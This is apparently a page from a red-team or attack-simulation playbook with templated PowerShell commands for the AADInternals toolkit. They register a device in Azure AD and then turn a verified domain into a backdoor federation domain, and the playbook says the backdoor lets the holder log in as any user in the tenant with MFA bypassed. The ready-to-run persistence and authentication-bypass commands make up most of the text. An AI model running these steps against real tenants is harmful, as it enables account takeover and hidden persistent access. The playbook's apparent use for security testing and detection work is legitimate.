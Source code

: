 ### Guidance

Authenticate to Azure AD and save the token

```
PS> Get-AADIntAccessTokenForAADJoin -SaveToCache
```

Register a device: 

```
PS> Join-AADIntDeviceToAzureAD -DeviceName "{{ device_name }}" -DeviceType "{{ device_type }}" -OSVersion "{{ os_version }}" -JoinType Register
```

  - This will save a `.pfx` certificate to the current working directory, which is needed for cleanup
  - Note: The provided values do not need to refer to real characteristics

### Cleanup

Remove the device from Azure AD 

```
PS> Remove-AADIntDeviceFromAzureAD -PfxFileName {{ pfx_certificate_file }}
```

## Azure AD Domain Federation - Backdoor via AADInternals

Use AADInternals to create a backdoor federation domain for persisting access to an environment.

### Prerequisites

- Permissions to modify domain authentication settings
  - and an access token for the user with these permissions, referred to as `$at` in example commands. To retrieve a token, use `$at=Get-AADIntAccessTokenForAADGraph -Credentials (get-credential)` and proceed through the prompts
- AADInternals installed
  - `Install-Module AADInternals`
- A target verified domain in Azure AD
  - To add a domain, Go to Azure AD -> custom domain names -> add -> set the provided DNS records for your domain -> wait for the verification to compelete
- A user with an immutable ID set
  - To set an immutable ID for a user: `Set-AADIntUser -UserPrincipalName {{ upn_or_email }} -ImmutableId "{{ id }}" -AccessToken $at` where the `id` is an arbitrary unnique value

### Guidance

To set the backdoor 

```
PS> ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "{{ domain }}"
```

To use the backdoor. This works for any user in the tenant, regardless of their domain.

```
Open-AADIntOffice365Portal -ImmutableID {{ id }} -UseBuiltInCertificate -ByPassMFA $true -Issuer {{ issuer }}
```
